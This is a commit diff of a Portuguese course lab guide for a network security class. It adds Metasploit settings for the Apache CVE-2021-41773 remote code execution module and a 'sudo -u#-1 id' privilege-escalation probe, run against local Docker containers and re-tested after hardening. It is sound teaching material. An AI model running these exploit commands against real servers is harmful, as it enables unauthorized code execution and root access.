

Before and after one commit to AlessandroDaudt/DisciplinaSegurancaRedeComputadores, a Markdown page: Aula 06 - Avaliação 2/lab-docker-vulnerabilidades/roteiro.md, 2 parts joined by grey strips. Shown at 92% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Completa comandos do roteiro dos alunos

````diff
--- a/Aula 06 - Avaliação 2/lab-docker-vulnerabilidades/roteiro.md
+++ b/Aula 06 - Avaliação 2/lab-docker-vulnerabilidades/roteiro.md
@@ -54,14 +54,20 @@ docker compose exec exploiter msfconsole -q
 Dentro do Metasploit:
 
 ```text
-search type:exploit apache
-info <modulo_escolhido>
-use <modulo_escolhido>
+use exploit/multi/http/apache_normalize_path_rce
+set CVE CVE-2021-41773
 set RHOSTS apache
 set RPORT 80
+set SSL false
+set TARGETURI /cgi-bin
+set TARGET 1
+set PAYLOAD cmd/unix/generic
+set CMD id
+set AllowNoCleanup true
 show options
 check
 run
+exit
 ```
 
 Use somente um módulo compatível com o alvo. Registre uma evidência mínima e
@@ -144,6 +160,46 @@ Repita os testes autorizados e confirme que:
 - a elevação de privilégio no Linux não funciona mais;
 - os serviços continuam disponíveis somente nas funções necessárias.
 
+### Repetir os testes
+
+### Apache
+
+```powershell
+docker compose exec exploiter msfconsole -q
+```
+
+```text
+use exploit/multi/http/apache_normalize_path_rce
+set CVE CVE-2021-41773
+set RHOSTS apache
+set RPORT 80
+set SSL false
+set TARGETURI /cgi-bin
+set TARGET 1
+set PAYLOAD cmd/unix/generic
+set CMD id
+set AllowNoCleanup true
+check
+exit
+```
+
+### MySQL
+
+```powershell
+docker compose --profile tools run --rm mysql-check
+```
+
+### Linux/SSH
+
+```powershell
+ssh -p 2222 aluno@127.0.0.1
+```
+
+```bash
+sudo -u#-1 id
+exit
+```
+
 ## 8. Entrega
 
 Entregue um relatório contendo:
````
Also changed, not shown: other parts of Aula 06 - Avaliação 2/lab-docker-vulnerabilidades/roteiro.md (+10 -0 lines), Aula 06 - Avaliação 2/lab-docker-vulnerabilidades/README.md (+18 -0 lines).
